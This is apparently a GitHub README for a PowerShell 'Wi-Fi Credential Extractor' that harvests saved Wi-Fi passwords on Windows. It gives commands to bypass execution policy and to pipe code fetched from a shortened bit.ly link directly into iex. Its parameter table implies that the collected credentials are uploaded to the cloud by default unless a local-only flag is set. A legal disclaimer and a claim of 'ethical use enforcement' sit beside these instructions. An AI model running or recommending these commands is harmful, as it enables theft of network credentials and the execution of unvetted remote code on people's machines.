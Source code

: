 
# # 🔐 **Wi-Fi Credential Extractor** — PowerShell Tool for Windows

![PowerShell](https://img.shields.io/badge/PowerShell-v5.1+-blue.svg)
![License](https://img.shields.io/badge/License-MIT-green.svg)
![Maintainer](https://img.shields.io/badge/Maintainer-techiecyber404-blue)

> **⚠️ Legal Notice**: Only use on networks you own or have explicit permission to test.  
> Unauthorized access to computer networks is illegal.

## 📥 Installation
```powershell
# Download directly
irm https://raw.githubusercontent.com/techiecyber404/WiFi-Credential-Extractor/main/Get-WiFiCredentials.ps1 -OutFile WiFiExtractor.ps1
```

## 🚀 Basic Usage
```powershell
# Run with default options (admin PowerShell required)
.\WiFiExtractor.ps1 
```

## ⚙️ Parameters
| Parameter       | Description                          |
|-----------------|--------------------------------------|
| `-LocalOnly`    | Disables cloud upload                |
| `-ShowPasswords`| Displays passwords in console        |
| `-OutputPath`   | Custom save location (default: TEMP) |

## 🛡️ Execution Bypass
If blocked by policies:
```powershell
# Method 1: Temporary bypass
Set-ExecutionPolicy Bypass -Scope Process -Force

# Method 2: Direct execution (no save)
irm https://bit.ly/wifi-extractor | iex
```

## 🌟 Features
- Encrypted credential storage
- Ethical use enforcement
- Lightweight (7KB) and fast

## 📜 License
MIT © [Venkatesh K](https://github.com/techiecyber404)  
**GitHub**: [@techiecyber404](https://github.com/techiecyber404)
